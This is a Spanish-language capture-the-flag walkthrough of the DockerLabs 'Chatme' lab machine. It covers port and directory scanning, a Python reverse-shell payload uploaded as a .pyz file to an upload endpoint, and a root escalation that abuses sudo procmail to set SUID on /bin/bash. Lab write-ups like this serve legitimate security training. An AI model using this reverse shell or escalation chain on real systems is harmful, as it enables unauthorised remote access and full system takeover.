 #MAQUINA #DOCKERLABS #MEDIO 
#ABUSO_SUBIDA_ARCHIVOS #RCE 
#EXTENSION_PYZ #PROCMAIL

<hr>

# RECONOCIMIENTO

Vamos a resolver **Chatme** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-25 11:36 CET
Initiating ARP Ping Scan at 11:36
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:36, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:36
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:36, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-03-25 11:36:28 CET for 0s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.68 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 172.17.0.2                          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-25 11:38 CET
Nmap scan report for chat.chatme.dl (172.17.0.2)
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-title: Login
|_Requested resource was login.php
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.30 seconds


```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-25 11:38 CET
Nmap scan report for chat.chatme.dl (172.17.0.2)
Host is up (0.0000060s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /login.php: Possible admin folder
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.28 seconds



```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)

Usamos **gobuster** :

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,js,txt,png,jpg
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://172.17.0.2/images/]
/index.html           (Status: 200) [Size: 7579]
/css                  (Status: 301) [Size: 178] [--> http://172.17.0.2/css/]
/js                   (Status: 301) [Size: 178] [--> http://172.17.0.2/js/]
/fonts                (Status: 301) [Size: 178] [--> http://172.17.0.2/fonts/]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================


```

```bash
gobuster dir -u http://chat.chatme.dl/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg -b=302,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://chat.chatme.dl/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   302,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,js,txt,png,jpg
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 1891]
/uploads              (Status: 301) [Size: 178] [--> http://chat.chatme.dl/uploads/]
/index2.php           (Status: 200) [Size: 5769]
/chat.php             (Status: 200) [Size: 2]
/upload.php           (Status: 200) [Size: 147]
/css                  (Status: 301) [Size: 178] [--> http://chat.chatme.dl/css/]
/js                   (Status: 301) [Size: 178] [--> http://chat.chatme.dl/js/]
/LICENSE              (Status: 200) [Size: 35147]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================

```
# EXPLOTACION

Intento bypassear tanto **chat.php** como **upload.php** -> Sin resultado.

Pruebo con una vulnerabilidad conocida de extensiones **.pyz** :

```python

#!/usr/bin/python

import socket,subprocess,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.17.0.1",443));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

pty.spawn("/bin/bash")

```

Al subirlo y acceder nos da una shell :

```bash

http://chat.chatme.dl/uploads/wp.pyz

```

YA ESTAMOS COMO SYSTEM.

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:

   ```bash
system@98c27b900143:~$ sudo -l
sudo -l
Matching Defaults entries for system on 98c27b900143:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User system may run the following commands on 98c27b900143:
    (ALL : ALL) NOPASSWD: /usr/bin/procmail

```

Vemos **procmail** con permisos SUDO, por una parte debemos crear un .procmailrc (sirve para hacer reglas a ejecutar con los mails -> tratamiento de mails):

```bash
TMPFILE=/tmp/prueba.txt

:0

| touch $TMPFILE ; chmod +s /bin/bash
```

Después enviamos un correo y usamos el filtro :

```bash

system@98c27b900143:~$ echo "H" | sudo /usr/bin/procmail -m .procmailrc 
system@98c27b900143:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1446024 Mar 31  2024 /bin/bash
system@98c27b900143:~$ /bin/bash -p
bash-5.2# whoami
root
bash-5.2# 

```

**YA ESTAMOS COMO ROOT.**